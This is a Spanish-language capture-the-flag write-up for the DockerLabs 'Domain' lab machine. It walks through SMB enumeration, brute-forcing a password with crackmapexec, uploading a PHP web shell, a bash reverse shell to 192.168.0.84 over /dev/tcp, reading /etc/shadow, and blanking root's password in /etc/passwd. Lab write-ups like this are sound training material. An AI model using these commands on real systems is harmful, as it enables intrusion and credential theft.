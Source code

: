 ```yaml
---
title: "Domain Writeup - DockerLabs"
date: 2024-05-01
categories: [Writeups, DockersLabs, Easy]
tags: [Linux, Easy, Domain, Dockerlabs, privesc, smb, nano, port, revshell]
image:
   path: /assets/img/posts/domain/banner.png
   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
   alt: Banner Domain
---
```


| Información |
|------------|------------|------------|
| Máquina: Domain |
| Creador: El Pingüino de Mario |
| SO: Linux |
| Dificultad: Easy |

<hr>
Esta máquina está alojada en [DockersLabs](https://dockerlabs.es), una nueva plataforma creada por [ElPingüinoDeMario](https://www.linkedin.com/in/maalfer1/) con un concepto diferente al que estamos acostumbrados, en lugar de conectarnos a una vpn o virtualizar una máquina se realiza la conexión a la máquina vulnerable a través de Docker, pudiendo correr en la propia máquina atacante la víctima, una muy buena idea para ahorrar recursos.

El tutorial para poder realizar estas máquinas se encuentra [aquí](https://dockerlabs.es/assets/instrucciones_de_uso.pdf)
<hr>
Comenzamos realizando un ping para confirmar visibilidad entre máquinas

![](/assets/img/posts/domain/ping.png)

Realizamos un nmap para descubrir que servicios están corriendo en la máquina

![](/assets/img/posts/domain/nmap.png)

Vemos que hay un servidor web Apache y un servidor samba corriendo.

![](/assets/img/posts/domain/web.png)
>Samba es una suite de aplicaciones Unix que habla el protocolo SMB (Server Message Block). Los sistemas operativos Microsoft Windows y OS/2 utilizan SMB para compartir por red archivos e impresoras y para realizar tareas asociadas.
{:.prompt-info }

En la web nos encontramos una breve explicación de qué es samba y para qué se usa.

Realizo un fuzzeo en busca de directorios, subdirectorios y subdominios interesantes pero sin éxito.

Nos centramos en el servidor smb, lanzamos enum4linux, para una posible enumeración de usuarios

``` zsh
enum4linux 172.17.0.2
```

![](/assets/img/posts/domain/users.png)

Descubrimos dos usuarios: James y Bob

Creamos un diccionario con los dos nombres para realizar fuerza bruta con crackmapexec

```zsh
crackmapexec smb 172.17.0.2 -u users.txt -p /usr/share/wordlists/rockyou.txt
-----------------------------------------------------------------------------------
SMB         172.17.0.2      445    86B2D8C57A0E     [+] 86B2D8C57A0E\bob:star 
```

Conseguimos las credenciales para bob:
`bob@star`

```zsh
smbmap -H 172.17.0.2 -u 'bob' -p 'star'
```

![](/assets/img/posts/domain/permisos.png)

Nos encontramos con que bob tiene permisos para modificar la carpeta html del servidor Apache, vamos a intentar subir un archivo PHP para realizar RCE.

Para acceder al recurso en el servidor smb usamos el comando:

```zsh
smbclient //172.17.0.2/html -U bob
```

![](/assets/img/posts/domain/smbclient.png)

Hacemos una pequeña prueba subiendo un archivo con el comando 'put'

![](/assets/img/posts/domain/put.png)

Llamamos al archivo y comprobamos que funciona correctamente

![](/assets/img/posts/domain/pwned.png)

Modificamos nuestro archivo `rce.php` subiendo un cmd para realizar el RCE

```php
<?php
        system($_GET['cmd']);
?>
```

Volvemos a realizar la comprobación:

![](/assets/img/posts/domain/cmd.png)

Procedemos a enviar una [revshell](https://www.revshells.com/)

```zsh
bash -c "bash -i >%26 /dev/tcp/192.168.0.84/4444 0>%261"
```

![](/assets/img/posts/domain/revshell.png)

Conseguimos una shell como el usuario www-data, nos cambiamos al usuario bob y comprobamos los privilegios.

![](/assets/img/posts/domain/subob.png)
![](/assets/img/posts/domain/find.png)

Pruebo a leer el /etc/shadow desde nano con este procedimiento de [GTFObins](https://gtfobins.github.io/gtfobins/nano)

![](/assets/img/posts/domain/gtfobins.png)

![](/assets/img/posts/domain/denied.png)

No somos capaces de leerlo, sin embargo haciendo la llamada directamente con el binario sí somos capaces de leer el shadow.

![](/assets/img/posts/domain/shadow.png)

Sin embargo se puede comprobar que el inicio de sesión con contraseña está desactivado para root 

![](/assets/img/posts/domain/root.png)

Vamos al fichero /etc/passwd:

![](/assets/img/posts/domain/passwd.png)

Eliminamos la x, dejando al usuario root de la siguiente forma:

```zsh
root::0:0:root:/root:/bin/bash
```

Después  de este proceso con el comando `su root` ya tendremos permisos como root y habremos vulnerado la máquina.



